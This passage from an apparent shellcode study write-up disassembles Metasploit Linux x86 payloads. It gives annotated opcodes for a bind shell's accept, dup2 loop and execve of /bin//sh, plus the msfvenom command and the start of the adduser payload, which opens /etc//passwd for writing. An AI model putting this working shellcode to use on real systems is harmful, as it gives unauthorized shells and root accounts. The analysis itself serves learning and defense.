 For the `listen()` function, a small stack manipulation is made in 0x00000022, simply to pass a null byte in as the 'backlog' parameter. ESP already points to the socket file descriptor, so we're good to go, otherwise!

Next up, a simple `accept()` call:
```
0000002B  43                inc ebx 		; increase ebx to 0x5 (accept)
0000002C  B066              mov al,0x66 	; 
0000002E  CD80              int 0x80 		; call socketcall!
```

After calling accept, we move to the last two functions, our dup2 loop, which is the same, highly optimized code we saw in the reverse shell and lastly, calling the shell itself, which is also the same code from the reverse shell.
```
00000030  93                xchg eax,ebx 			; save the file descriptor from accept()
00000031  59                pop ecx 				; pop the initial FD from socket (pushed to the stack @ 0000001A)
00000032  6A3F              push byte +0x3f 		; start the dup2 loop
00000034  58                pop eax
00000035  CD80              int 0x80
00000037  49                dec ecx
00000038  79F8              jns 0x32 				; dup2 loop ends
0000003A  682F2F7368        push dword 0x68732f2f 	; execve starts
0000003F  682F62696E        push dword 0x6e69622f
00000044  89E3              mov ebx,esp
00000046  50                push eax
00000047  53                push ebx
00000048  89E1              mov ecx,esp
0000004A  B00B              mov al,0xb
0000004C  CD80              int 0x80 				;  call execve!
```

Looking at the bind and the reverse shells, after a bit of getting this under my belt, it makes sense that there would be so much code reuse. The shellcodes once seemed so mysterious, but now I can see their immense similarities. 

#### adduser

Rather than walk through some semi-similar staged shells, I wanted to take a quick glance at how msf handles adding a user via shellcode. 
```
$ msfvenom -p linux/x86/adduser -f raw | ndisasm -u -
/var/lib/gems/2.5.0/gems/bundler-1.17.3/lib/bundler/rubygems_integration.rb:200: warning: constant Gem::ConfigMap is deprecated
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes

00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
```